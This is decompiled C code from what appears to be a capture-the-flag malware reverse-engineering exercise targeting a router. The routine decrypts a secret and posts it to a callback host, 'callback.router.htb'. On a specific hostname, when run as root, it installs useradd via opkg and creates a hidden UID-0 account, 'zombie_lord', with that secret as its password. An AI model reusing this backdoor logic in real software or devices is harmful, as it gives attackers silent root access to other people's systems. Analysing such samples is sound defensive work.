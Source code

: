 ```c
  local_20._2_1_ = 'm';
  local_20._3_1_ = 'b';
  local_1c._0_1_ = 'i';
  local_1c._1_1_ = 'e';
  local_1c._2_1_ = '_';
  local_1c._3_1_ = 'l';
  local_18._0_1_ = 'o';
  local_18._1_1_ = 'r';
  local_18._2_1_ = 'd';
  local_18._3_1_ = '\0';
  memcpy(auStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
  memcpy(acStack_3c,&DAT_00400d50,0x1b);
  sVar1 = strlen(acStack_3c);
  pvVar2 = malloc(sVar1 << 2);
  init_crypto_lib(auStack_68,acStack_3c,pvVar2);
  iVar3 = curl_easy_init();
  if (iVar3 == 0) {
    uVar7 = 0xfffffffe;
  }
  else {
    curl_easy_setopt(iVar3,0x2712,"http://callback.router.htb");
    curl_easy_setopt(iVar3,0x271f,pvVar2);
    curl_easy_perform(iVar3);
    curl_easy_cleanup(iVar3);
    pFVar4 = fopen("/proc/sys/kernel/hostname","r");
    local_168 = 0;
    memset(auStack_164,0,0xfc);
    sVar1 = fread(&local_168,0x100,1,pFVar4);
    fclose(pFVar4);
    (&uStack_169)[sVar1] = 0;
    iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
    if (iVar3 == 0) {
      _Var5 = getuid();
      if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
        ppVar6 = getpwnam((char *)&local_20);
        if (ppVar6 == (passwd *)0x0) {
          system(
                "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
                );
        }
        pFVar4 = popen("passwd zombie_lord","w");
        fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
        pclose(pFVar4);
        uVar7 = 0;
      }
      else {
        uVar7 = 0xffffffff;
      }
    }
    else {
      uVar7 = 0xffffffff;
    }
  }
  return uVar7;
}
```
